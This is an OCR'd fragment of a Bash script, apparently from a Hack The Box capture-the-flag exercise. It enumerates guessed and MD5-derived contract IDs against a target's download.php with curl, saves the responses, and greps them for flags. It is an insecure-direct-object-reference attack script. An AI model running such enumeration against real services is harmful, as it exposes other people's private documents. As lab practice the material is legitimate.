 ```sh
    "$MD5_UID"            # MD5 of UID
  )
  METHODS=("GET" "POST")  # Try both GET and POST

  for method in "${METHODS[@]}"; do
    for contract in "${CONTRACTS[@]}"; do
      OUTPUT_FILE="$OUTPUT_DIR/contract_${i}_${method}_${contract:0:8}.pdf"
      echo "Trying $method with contract=$contract for UID $i..."

      if [ "$method" = "GET" ]; then
        curl -s -o "$OUTPUT_FILE" "$BASE_URL/download.php?contract=$contract"
      else
        curl -s -o "$OUTPUT_FILE" -X POST -d "contract=$contract" "$BASE_URL/download.php"
      fi

      # Check if file is downloaded and not empty
      if [ -s "$OUTPUT_FILE" ]; then
        # Check file type
        FILE_TYPE=$(file "$OUTPUT_FILE")
        echo "File $OUTPUT_FILE: $FILE_TYPE"

        # If it's a text file, try cat
        if echo "$FILE_TYPE" | grep -q "text"; then
          echo "Attempting to read with cat:"
          cat "$OUTPUT_FILE"
          # Check for flag
          if cat "$OUTPUT_FILE" | grep -q "flag\|HTB"; then
            echo "Flag found in contract $i ($method, contract=$contract)!"
            exit 0
          fi
        fi

        # Try extracting strings (for PDFs or mislabeled files)
        STRINGS=$(strings "$OUTPUT_FILE")
        if echo "$STRINGS" | grep -q "flag\|HTB"; then
          echo "Possible flag found in contract $i ($method, contract=$contract):"
          echo "$STRINGS" | grep "flag\|HTB"
          exit 0
        fi
      else
        echo "Failed to download contract $i ($method, contract=$contract) or file is empty."
        rm -f "$OUTPUT_FILE"
      fi
    done
  done

  # Try direct file names (e.g., contract1.pdf, 1.pdf)
  for name in "contract$i.pdf" "$i.pdf"; do
    OUTPUT_FILE="$OUTPUT_DIR/direct_$name"
    echo "Trying direct file $name..."
    curl -s -o "$OUTPUT_FILE" "$BASE_URL/$name"

    if [ -s "$OUTPUT_FILE" ]; then
      FILE_TYPE=$(file "$OUTPUT_FILE")
      echo "File $OUTPUT_FILE: $FILE_TYPE"

      if echo "$FILE_TYPE" | grep -q "text"; then
        echo "Attempting to read with cat:"
        cat "$OUTPUT_FILE"
        if cat "$OUTPUT_FILE" | grep -q "flag\|HTB"; then
          echo "Flag found in direct file $name!"
          exit 0
        fi
```